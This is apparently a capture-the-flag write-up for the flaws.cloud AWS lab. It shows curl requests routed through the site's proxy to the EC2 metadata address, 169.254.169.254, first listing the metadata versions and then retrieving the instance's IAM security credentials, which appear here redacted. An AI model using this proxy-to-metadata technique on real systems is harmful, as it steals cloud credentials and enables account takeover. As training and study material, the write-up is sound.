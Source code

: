 First hint gives us this:
> On cloud services, including AWS, the IP 169.254.169.254 is magical. It's the metadata service.
> There is an RFC on it ([RFC-3927](https://tools.ietf.org/html/rfc3927)), but you should read the AWS specific docs on it [here](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html).

Trying to `curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/` we get the following list of available metadata:
```
1.0
2007-01-19
2007-03-01
2007-08-29
2007-10-10
2007-12-15
2008-02-01
2008-09-01
2009-04-04
2011-01-01
2011-05-01
2012-01-12
2014-02-25
2014-11-05
2015-10-20
2016-04-19
2016-06-30
2016-09-02
2018-03-28
2018-08-17
2018-09-24
2019-10-01
2020-10-27
2021-01-03
2021-03-23
2021-07-15
2022-07-09
2022-09-24
2024-04-11
latest
```

Looking at `latest` first and foremost, we can grab ourselves some EC2 security credentials for the instance by doing `curl http://4d0cf09b9b2d761a7d87be99d17507bce8b86f3b.flaws.cloud/proxy/169.254.169.254/latest/meta-data/iam/security-credentials/flaws`
```json
{
  "Code" : "Success",
  "LastUpdated" : "2024-08-31T04:48:31Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : [REDACTED],
  "SecretAccessKey" : [REDACTED],
  "Token" : [REDACTED],
  "Expiration" : "2024-08-31T10:55:18Z"
}
```
